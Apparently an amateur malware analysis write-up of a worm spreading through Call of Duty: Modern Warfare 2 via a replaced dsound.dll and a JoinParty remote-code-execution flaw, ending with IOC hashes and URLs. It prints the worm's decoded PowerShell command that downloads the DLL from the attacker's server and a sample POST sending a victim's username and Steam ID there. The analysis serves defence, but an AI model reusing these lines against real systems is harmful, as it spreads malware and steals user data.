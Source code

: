# Call of Duty: Modern Warfare 2 (2019) Worm
---
I saw an article regarding a new worm spreading via Call of Duty: Modern Warfare 2. Link [here](https://www.techspot.com/news/99573-hackers-infecting-modern-warfare-2-players-self-spreading.html)

I haven't seen any analysis write-ups on it yet so I wanted to take a look at it myself despite not really knowing much on game hacking.
---

## Obtaining Samples
I looked at some of the Steam Forum [posts](https://steamcommunity.com/app/10190/discussions/0/3810656756190466074/?ctp=2#c3800524658154744558) and someone identified some strings located in the binary. Additionally, they mentioned the file that gets infected or replaced by the worm: dsound.dll. Others also mentioned the classified name they were alerted on by their anti-virus: Trojan/Win32: Wacatac.B!ml

Using this info, I managed to find a number of samples on VirusTotal.

---

## Analysis

Due to the file being a DLL, I looked at the exports first. There weren't any blatantly malicious export names like "SpreadWorm" but there were two that caught my eye. DirectSoundCaptureCreate8 and DirectSoundCreate8 are weird. Why would Infinity Ward name exports these? I'm sure if I reinstalled MW2 and looked at the original DLL, these wouldn't exist.

![Exports](Pictures/codmw2-exports.png)

When I initially dove into these, DirectSoundCaptureCreate8 didn't have anything blatantly malicious looking. However, DirectSoundCreate8 did. I saw a number of strings that looked to be obfuscated and then I noticed the string: ```User was randomly selected to be a spreader in modded lobbies.\n```

![spreaderString](Pictures/codmw2-spreaderString.png)

I then worked on deobfuscating the strings. This was surprisingly easy because it was a simple rotation cipher. The rotation amount varied per string but this was easily solved with CyberChef just by clicking the up or down arrow in the ROT13 recipe. I didn't feel like completely reversing the string obfuscation.

Below are some of the deobfuscated strings.

![deobfuscatedStrings](Pictures/codmw2-deobfuscatedStrings.png)

These are all related to downloading a file from the internet. After a little more reversing it seems like these APIs are responsible for downloading updated versions of the worm and saving it as dsound1.dll and then moving the file to dsound.dll.

![wormUpdate](Pictures/codmw2-downloadUpdate.png)

Taking a look at other deobfuscated strings, particularly URLs, I identified the initial connection routine. It appears to craft a packet to ```http://www[.]shinyware[.]systems/telemetry``` containing information about the victim. Specifically the username, Steam ID, cpu, and Windows version.
Below is an example packet. Keep in mind that this is purely from code analysis and could be slightly incorrect. I didn't want to reinstall MW2 nor did I want to infect anyone else while playing.
```
POST /telemetry
Host: www[.]shinyware[.]systems
Content-Type: application/x-www-form-urlencode
Data:
username=fakeuser&steamID=110191&cpu=Intel_i7&gpu=AMD_Radeon_6700&winver=Windows10
```

This is all pretty basic malware stuff but my biggest question is how is this spreading from player to player? So I began looking at RCE vulnerabilities for MW2. Surprisingly, I found a couple. This also made me a bit concerned about my younger self's PC after experiencing a few hacked lobbies. Eventually, in the rabbit hole, I discovered [this](https://github.com/BlastsMods/JoinPartyRCE/tree/master).

As I started diving into the source code I found the main exploit string.

![exploitString](Pictures/codmw2_exploitString.png)

This is extremely similar to a string within the worm-infected dsound.dll file.

![exploitDLL](Pictures/codmw2-exploitDLL.png)

I haven't really gone down the game-hacking rabbit hole so I'm not sure exactly how this JoinParty RCE works other than it's supposedly a buffer overflow that leads to RCE. It looks like it was originally designed for hacked lobbies to give everyone cheats. See the se7en sins [post](https://www.se7ensins.com/forums/threads/release-mw2-rce-menu-tu9.1771186/).

It looks like the author of this malware modified it to instead perform a Powershell command to download the worm. The Powershell command was obfuscated in the code:

```powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://www[.]shinyware[.]systems/dsound.dll', 'dsound.dll') "```

From my quick analysis of the binary, I'm not really sure of the main point of the worm. I'm not sure if it's used to spread additional malware, create a botnet for DDoS, remote access to victims, pure chaos, etc. However, I did find this Youtube [video](https://www.youtube.com/watch?v=9aAiIHY5B20) of what looks to be the worm in action. I say that because in the comments of the video it states "it was shiny's worm actually" and there's a string in the binary that states "get cucked by shiny" who is theoretically the author of the worm.

Again, I didn't want to spend a ton of time on this because I have higher-priority projects but this was a fun little analysis to do. If anyone else takes a deep dive, especially into the RCE itself please send it my way because I'd be very interested.

---

## IOCs
Hashes (SHA256):
- 26e2fa19d21b312337e06271ad00b14f8b15123779c6c96e7b2526e11070d1d4
- 20a7b7e215784b6dec17f75632e966985c63d97af1a94f7813fe120d4882a36a
- ee76423a6fd8a5ea13c14dda646baf9c957b6d4f126d358c47ac3a08ed0355b7
- cf013939eb5ac2a8c698868d0fdcbde950351c0db6fd932cdf9970d7b3376163
- a0ee880294af310d284fc177d5d9e01c4822701cc4a36c90c1dd4405ad175a35
- 9f06583803b78b1319093a2fde7304c4b3db2ecaabda846512e467740a177aa0
- bf69163328382717689382e69221d05c64302a391b4e48c0c148e299c056279e
- 86471038d536897fd254648f964c342d9f126953c90948d5bddec931f86d5a79
- ca537f4fdb9403718e6a9c2422a0efa94e3ec04aefd199b7008cc7cfcb11dd2e
- 8d4218da477d68c450a058fbcca3c46a2044e772a56de86aa3540ea669fa0d00
- 4e3f6d9f80805f389c8da8654e544144f56a4b77b4c6a38ac71ec0c487ac96f4
- 67351a25307b2f386fc35c134a5eb61b5354883eed7f284f8ab05e9783b63072
- ecc2e51f37fa0a390deac423736e7f18776a1d58798ded78a4402517fb9b4113
- 8f45a6615851789a51e97f4f103303bf7e643007a946bcd4fb16f1f33a3a0d54
- cb000abed31b92b4f3f895a633ef0ffaf01a1be0dfc73619acf98c1605a5999d
- f78d1f1e336202bf1b5ec09b37e06b01074216d55d73fa9555c7aba769cf54e1

Filename: dsound.dll

URLs:
- http://www[.]shinyware[.]systems/telemetry
- http://www[.]shinyware[.]systems/blocked[.]txt
- http://www[.]shinyware[.]systems/dsound[.]dll

